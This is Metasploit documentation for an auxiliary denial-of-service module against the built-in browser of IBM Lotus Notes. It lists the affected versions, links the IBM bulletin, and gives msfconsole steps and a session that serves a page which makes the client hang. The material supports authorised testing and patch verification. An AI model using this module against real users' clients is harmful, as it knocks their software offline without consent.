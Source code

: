 ## Vulnerable Application

This module exploits a vulnerability in the built-in web-browser of IBM Lotus Notes client application.

JavaScript is used to create an object instance of encode URI within an infinite loop,
leading to a Denial of Service of the IBM Lotus Notes app itself.

Vulnerable app versions include:
* IBM Notes 9.0.1 to 9.0.1 FP8IF1
* IBM Notes 9.0 to 9.0 IF4.
* IBM Notes 8.5.3 to 8.5.3 FP6 IF13.
* IBM Notes 8.5.2 to 8.5.2 FP4 IF3.
* IBM Notes 8.5.1. to 8.5.1 FP5 IF5.
* IBM Notes 8.5 release

Related security bulletin from IBM: http://www-01.ibm.com/support/docview.wss?uid=swg21999385

## Verification

1. Start msfconsole
1. `use auxiliary/dos/http/ibm_lotus_notes.rb`
1. Set `SRVHOST`
1. Set `SRVPORT`
1. run (Server started)
1. Visit server URL in the built-in web-browser of IBM Notes client application

## Scenarios

```
msf > use auxiliary/dos/http/ibm_lotus_notes 
msf auxiliary(ibm_lotus_notes) > show options 

Module options (auxiliary/dos/http/ibm_lotus_notes):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(ibm_lotus_notes) > set SRVHOST 192.168.0.50
SRVHOST => 192.168.0.50
msf auxiliary(ibm_lotus_notes) > set SRVPORT 9092
SRVPORT => 9092
msf auxiliary(ibm_lotus_notes) > run
[*] Auxiliary module execution completed
msf auxiliary(ibm_lotus_notes) > 
[*] Using URL: http://192.168.0.50:9092/ImlbHZVXlvTEXYd
[*] Server started.
msf auxiliary(ibm_lotus_notes) > 
```

At this point, the target should use the built-in web browser of their IBM Lotus Notes client to navigate to the above "Using URL" value.  And then they should see their Notes app become unresponsive.

